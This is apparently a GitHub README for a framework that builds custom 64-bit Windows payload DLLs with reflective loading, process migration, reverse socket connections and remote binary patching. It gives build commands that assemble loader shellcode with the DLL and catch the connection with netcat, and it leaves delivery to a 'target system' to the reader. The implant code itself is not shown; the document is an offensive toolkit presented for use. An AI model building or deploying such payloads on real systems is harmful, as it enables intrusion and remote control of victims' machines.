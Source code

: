 Framework
=========

A framework for writing custom 64-bit Win32 payloads
in the form of a dll.

The framework provides some userspace tools for
the payloads:

 * Reflective loading
 * Process migration
 * Reverse socket conections
 * Patching DLLs and EXEs on remote host

Building
--------

You will need:

 * Cygwin (64 bit) -- make, mingw64-x86_64-gcc-g++
 * Ruby (Cygwin's or native Window's version, doesn't matter)
 * Git (well duh)
 * Netcat
 
Fire up cygwin

    git clone https://github.com/floomby/framework.git
    cd framework

Edit config.h to suit your need. The comments explain things.

    make dll

This builds framework.dll. It is up to you to get
it running on a target system. There is shellcode
in the shellcode directory to help you get started.

Assuming RPORT => 1234 and RHOST => localhost you
can do the following

    make tools
    cd shellcode/loader
    make
    ./loader | ruby >sc && cat ../../framework.dll >>sc
    (../../tools/sc-test/sc-test sc &) && nc -l 1234
    
Usage
-----

COMING SOON

Bugs
----

Right now I am aware of two bugs, both are minor

 * memory is not freeded properly on migration out of process
 * sc-test stays running for a couple minutes when launched as
   described in the instructions, this is due to it waiting
   for all the windsock threads to terminate before exiting

Notes
-----

 * patch is incomplete
 * this is not much better than a normal shell
 * it can be cached to disk
 
All of these will be fixed in the nearish future.

